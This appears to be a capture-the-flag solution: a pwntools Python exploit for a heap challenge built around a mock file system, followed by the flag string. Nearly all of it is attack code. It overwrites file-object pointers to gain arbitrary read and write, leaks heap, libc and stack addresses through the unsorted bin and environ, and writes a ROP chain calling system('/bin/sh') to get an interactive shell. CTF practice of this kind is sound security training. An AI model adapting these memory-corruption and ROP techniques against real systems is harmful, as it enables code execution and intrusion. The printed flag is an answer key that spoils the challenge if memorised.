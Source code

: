 ```python
A = heap + 0x12570
B = heap + 0x125f0
C = heap + 0x126b0
log.success(f"heap base @ {hex(heap)}")
log.info(f"A @ {hex(A)}")
log.info(f"B @ {hex(B)}")
log.info(f"C @ {hex(C)}")

# 4. libc leak with unsorted bin address
# modify File(C)->raw_str, it makes AAR/AAW
payload = b'\x00'*0x18 + p64(0x81)
payload += p64(B) + b'C'.ljust(0x50, b'\x00')
payload += p64(0xFE)
payload += p64(root_dir) + p64(heap + 0x128c0)
payload += p64(0x8) + p64(0x108) + b'\n\n'
editFile("B", payload)

changeDir("Can")
makeFile("D", 0x500)
makeFile("F", 0x500)
removeFile("D")
removeFile("F")
changeDir("/")
readFile("C")
what = u64(p.recvuntil(b"\x00\x00"))
log.info(f"what @ {hex(what)}")
libc.address = what - 96 - 0x100 - 0xE0 - libc.symbols['_IO_2_1_stdin_']
log.success(f"libc base @ {hex(libc.address)}")

# 5. stack leak with environ global variable
payload = b'\x00'*0x18 + p64(0x81)
payload += p64(B) + b'C'.ljust(0x50, b'\x00')
payload += p64(0xFE)
payload += p64(root_dir) + p64(libc.symbols['environ'])
payload += p64(8) + p64(0x108) + b'\n\n'
editFile("B", payload)
readFile("C")
stack = u64(p.recvuntil(b'\x00\x00')) 
target = stack - 0x140
log.success(f"stack @ {hex(stack)}")
log.info(f"target @ {hex(target)}")

# 6. make ROP in edit_file RET
payload = b'\x00'*0x18 + p64(0x81)
payload += p64(B) + b'C'.ljust(0x50, b'\x00')
payload += p64(0xFE)
payload += p64(root_dir) + p64(target)
payload += p64(0x60) + p64(0x108) + b'\n\n'
editFile("B", payload)

rop = ROP(libc)
rop.call(rop.find_gadget(["ret"]))
rop.call("system", [next(libc.search(b"/bin/sh"))])
editFile("C", rop.chain() + b'\n\n')

p.interactive()
```

`INCO{Kait0-14tdo_14tto-katto_Inc0g-n1to}`